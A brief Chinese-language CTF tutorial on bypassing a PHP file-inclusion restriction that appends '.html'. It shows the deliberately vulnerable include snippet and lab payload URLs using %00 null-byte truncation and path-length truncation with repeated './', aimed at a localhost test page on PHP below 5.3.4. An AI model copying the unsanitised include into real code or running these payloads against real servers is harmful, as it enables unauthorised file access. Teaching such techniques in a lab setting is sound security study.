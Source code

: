 漏洞利用条件：

php<5.3.04

magic_quotes_gpc=Off(默认情况下为On)



## 1.开发者对文件包含做了限制，比如只允许执行html文件

```javascript
<?php
$filename=$_GET['filename'];
include($filename .".html");
```

1.1此时在playload:http://127.0.0.1/ctf/filie_include/include_test.php?filename=flag.php将报错

![](images/BFAA331043374417A67294093CA66170clipboard.png)

1.2而执行：http://127.0.0.1/ctf/filie_include/include_test.php?filename=1此访问到目录下的1.html

![](images/27DE327F004542B69BEE5144E2EB01DFclipboard.png)

## 2.%00截断

漏洞原理：当程序输出char(0)时，后面的代码将不再执行，程序默认把%00当作了结束符

类似于C语言数组中的结束符’\0‘

![](images/EA4C5F311AFE403197E6049FE2BE8600clipboard.png)

此处应该执行的文件为flag.php%00.html。但是应为%00截断漏洞，执行了flag.php。

## 3.路径长度截断

windows下最大长度为256字节，超过部分会被丢弃。

linux下最大字符为4096字节，超过部分会被丢弃。

所以：使用http://127.0.0.1/ctf/filie_include/include_test.php?filename=flag.php/./././././././././././././././.

也能截断

![](images/E13C8880EA194DA3A1EBEE24637EE51Dclipboard.png)

windows系统：256个点号也能截断

![](images/3DA0BC46359242F58FE1F9F29B5F2E4Cclipboard.png)

长度截断也必须满足：

php<5.3.4

magic_quotes_gpc=Off;